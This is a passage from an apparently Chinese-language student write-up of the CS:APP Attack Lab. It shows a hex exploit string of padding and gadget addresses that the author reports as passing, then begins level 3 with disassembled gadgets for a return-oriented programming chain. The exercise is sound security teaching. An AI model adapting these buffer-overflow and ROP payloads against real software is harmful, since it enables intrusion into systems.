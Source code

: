 最终答案为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

验证通过

![image-20211030163131955](实验3：AttackLab.assets/image-20211030163131955.png)

### lever 3

最后一个看介绍都感觉很难，果断参考答案来做。
**addval_190**

```assembly
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

```

```assembly
0x401a06 48 89 e0    #movq %rsp,%rax
0x401a09 c3          #ret
```

**setval_426**

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```
